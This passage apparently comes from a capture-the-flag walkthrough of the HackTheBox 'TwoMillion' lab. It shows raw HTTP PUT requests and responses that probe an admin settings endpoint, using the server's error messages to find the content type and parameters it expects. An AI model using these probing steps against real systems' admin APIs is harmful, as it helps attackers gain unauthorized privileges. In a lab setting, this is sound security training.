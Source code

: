 #### Response
```ruby
HTTP/1.1 401 Unauthorized
Server: nginx
Date: Fri, 16 Jun 2023 15:49:57 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 0
```

When updating data to `/api/v1/admin/settings/update`, it prompts that the data type is incorrect. After changing to `json`, it prompts that the content is missing.

#### Request
```ruby
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=jli1t3sd64rig7par67u26nfv0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

#### Response
```ruby
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 16 Jun 2023 15:53:08 GMT
Content-Type: application/json
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 53
{"status":"danger","message":"Invalid content type."}
```


I change the `Content-Type` to `json` and we get a message `Missing parameter: email`.
```ruby
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=jli1t3sd64rig7par67u26nfv0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 2
```
